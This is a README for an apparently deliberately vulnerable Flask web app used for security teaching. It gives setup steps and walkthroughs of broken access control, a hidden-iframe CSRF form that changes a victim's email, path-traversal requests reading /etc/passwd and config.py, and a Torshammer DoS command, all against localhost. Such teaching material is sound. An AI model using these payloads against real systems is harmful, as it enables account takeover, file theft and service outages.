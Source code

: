 # Setup
- For Linux.
- Download Python 3.6+ version and install.
- Go inside the project directory and open in terminal.
- Follow steps to create a virtual environment in your system (optional) 
    - Run command `pip install virtualenv` to install virtual package manager
    - Make a virtual environment using command `virtualenv env`
    - Now activate your virtual environment: `source env/bin/activate`
    
- Install all project dependencies: `pip install -r requirements.txt` or `pip3 install -r requirements.txt`
- Finally, run application: `python app.py` or  `python3 app.py`

<br>

# Insecure Application

## 1 Broken access control and priviledge escalation due to improper authorization:
1. Attacker finds the admin login page using bruteforce.
Attacker has a list of popular API endpoints.<br>
`python3 bruteforce-url.py`

2. Attacker logs in as a normal user and tries to access admin page. Due to improper authorization, attacker is granted access.


## 2 Session Hijacking 
Creating a hidden form that exploits the API that updates the user profile. Attacker places the form in the blog's content; whenever a user clicks on the button, its email is changed. Later attacker can use the forgot password feature to change the password.

Attacker can inspect the update-profile page to learn the working of the API call; then create a fake HTML form with attackers details.
```
<style>
    .hide { position:absolute; top:-1px; left:-1px; width:1px; height:1px; }
</style>
  
<iframe name="hiddenFrame" class="hide"></iframe>
  
<form action="/user/update" method="post" target="hiddenFrame">
    <input type="text" name="email" id="update-email" value="srtkrwt@gmail.com" style="display: none;"><br>
    <button type="submit" id="signup-button">Check out this video!!</button>
</form>
```

## 3 Sensitive data access
All the profile pictures are stored on the server. The webpage sends a POST request to fetch the picture. The attacker exploits this. He can send mallicious file name in the request, like "../../../../../../../ect/passwd" or "../../config.py" 

Attacker can inspect the update-profile page to learn the working of the API call that fetches the profile picture; then send requests containing malicious filename.

```
This will return  profile picture of user="user001"

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "user001"
}

###
This will return etc/passwd file 

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../../../../../../../../etc/passwd"
}

###
This will return config.py file of the application.

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../config.py"
}
```

## 4 Denial Of Service attack
Attacker can DOS the server, this makes the services unavailable the the normal users.
We used Torshammer to perform the DOS attack.<br>
`python2 torshammer.py -t 127.0.0.1 -p 5000` 
